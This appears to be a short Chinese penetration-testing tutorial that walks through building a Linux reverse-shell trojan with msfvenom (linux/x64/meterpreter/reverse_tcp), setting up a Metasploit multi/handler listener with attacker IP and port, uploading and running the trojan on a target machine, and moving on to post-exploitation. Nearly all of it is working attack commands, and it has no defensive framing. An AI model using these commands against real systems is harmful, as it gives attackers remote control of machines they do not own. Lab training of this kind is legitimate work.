






# 一、环境准备

1. MSF-Metasploit Framework
2. 一台靶机

# 二、木马生成

1. 生成一个Linux后门
2. msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={监控IP} LPORT={监控端口} -f elf > shell.elf!

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf

   

2. 载入监控模块  msf中输入：  use exploit/multi/handler

3. 加载payload  msf终端中输入：set payload linux/x64/meterpreter/reverse_tcp

4. 配置payload  msf终端中输入：show options

5. 配置payload监控IP msf终端中输入： set  lhost  {监控IP}

6. 配置payload监控端口  msf终端中输入：set lport  {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：show options

8. 执行监控  msf终端中输入： run

   	

# 四、攻击利用

1. 将木马上传到靶机 

2. 在靶机上执行木马 

	

1. 完成攻击利用

   	

于是即可进行后渗透

	

